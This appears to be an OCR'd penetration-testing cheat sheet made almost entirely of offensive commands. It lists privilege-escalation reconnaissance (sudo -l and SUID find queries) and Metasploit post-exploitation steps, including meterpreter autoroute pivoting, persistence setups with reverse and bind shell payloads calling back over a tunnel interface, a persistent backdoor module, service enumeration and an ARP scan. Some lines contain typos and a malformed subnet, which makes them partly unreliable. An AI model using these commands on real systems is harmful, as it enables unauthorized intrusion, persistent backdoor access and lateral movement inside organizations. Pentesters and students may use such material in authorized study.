 # Find what does the user have the ability to sudo as root for a certain file
sudo -l

# The following commands can discover all the SUID executables that are running on a target.  Set User ID is a type of permission that allows users to execute a file with the permissions of a specified user.
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
find / -perm -4000 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;

 
## Post Explotation  ##################################

# In order to discover hosts, gather IP's, open ports, services , & pivot inside an organization network(internal) from a outside/public network (external) we can use msf modules  
# First we need to set the route to the network with the following command via meterpreter: 
 run autoroute -s XXX.XX.XX.XX 

# setup persistence configs which sets up a metasploit handler automatically to match meterpreter input
run persistence -S -U -X -p 443 -r tun0 -P windows/x64/meterpreter/bind_tcp -A
run persistence -S -U -X -p 4343 -r tun0 -P windows/x64/meterpreter/reverse_tcp -A

## Post exploitation Metasploit modules

#  enum all windows services via meterpreter session  	
run winenum	
	
# maintining access via a backdoor , setup persistent shell via meterpreter and metasploit	
use exploit/windows/local/persistence                                           

# run arp scan to map network via meterpreter 	
run arp_scanner –r 10.32.120.0/2                                               
	